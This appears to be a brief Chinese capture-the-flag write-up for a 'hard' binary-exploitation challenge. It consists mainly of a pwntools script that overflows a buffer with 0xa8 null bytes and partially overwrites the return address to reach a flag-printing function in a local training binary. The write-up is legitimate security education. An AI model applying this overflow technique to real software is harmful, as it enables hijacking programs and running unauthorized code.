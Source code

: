 # 挑战简介
```
如果说hard和easy有什么区别,我认为唯一的区别就是失去了栈情况的显示,但是这个问题你完全可以用IDA解决
```

# 思路
每一套题的意思都差不多,区别也就以上,没什么好说的,所以我直接放答案了  
**如果你看到这了,依旧有点摸不着头脑,那就劝你,把前面的(easy)题真正去理解了,多看IDA,多思考,什么题都迎刃而解了**  

```
#!/usr/bin/python
from pwn import *
import struct

context(os='linux',arch='AMD64',log_level='debug')
p = process('/challenge/binary-exploitation-null-write')

p.recvuntil('Send your payload (up to 4096 bytes)!\n')
win_authed_address = p64(0x1797)    #输出flag的偏移量
payload = b"\x00" * 0xa8 + b'\x97\x17'
print(len(payload))
p.send(payload)
p.recvall()
```
